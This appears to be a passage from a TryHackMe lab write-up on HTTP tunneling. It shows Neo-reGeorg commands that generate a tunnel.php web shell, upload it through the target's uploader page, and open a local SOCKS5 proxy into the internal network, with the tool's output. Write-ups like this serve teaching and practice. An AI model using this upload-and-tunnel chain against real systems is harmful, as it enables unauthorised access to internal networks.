 ![HTTP Tunneling diagram](https://tryhackme-images.s3.amazonaws.com/user-uploads/5d617515c8cd8348d0b4e68f/room-content/b32d6d9d9c3377acf155044204ec6982.png)  

Now replicate the HTTP Tunneling steps to establish tunneling over the HTTP protocol to communicate with flag.thm.com with 172.20.0.120 as an IP address on port 80. Note that if you access the flag.thm.com website from other machines within the network, you won't get the flag.

### Getting the flag

We need to use `Neo-reGeorg`:

```
python3 neoreg.py generate -k thm
```

Once we generated the files, we need to go to:

```
http://IP/uploader
```

On here, we need to upload our `tunnel.php` file the tool generated:

![](../images/Pasted%20image%2020250516180630.png)

Once we upload it, we will get that message, now, we can use the tool again:

```
python3 neoreg.py -k thm -u http://10.10.39.16/uploader/files/tunnel.php


          "$$$$$$''  'M$  '$$$@m
        :$$$$$$$$$$$$$$''$$$$'
       '$'    'JZI'$$&  $$$$'
                 '$$$  '$$$$
                 $$$$  J$$$$'
                m$$$$  $$$$,
                $$$$@  '$$$$_          Neo-reGeorg
             '1t$$$$' '$$$$<
          '$$$$$$$$$$'  $$$$          version 5.2.1
               '@$$$$'  $$$$'
                '$$$$  '$$$@
             'z$$$$$$  @$$$
                r$$$   $$|
                '$$v c$$
               '$$v $$v$$$$$$$$$#
               $$x$$$$$$$$$twelve$$$@$'
             @$$$@L '    '<@$$$$$$$$`
           $$                 '$$$


    [ Github ] https://github.com/L-codes/Neo-reGeorg

+------------------------------------------------------------------------+
  Log Level set to [ERROR]
  Starting SOCKS5 server [127.0.0.1:1080]
  Tunnel at:
    http://10.10.39.16/uploader/files/tunnel.php
```
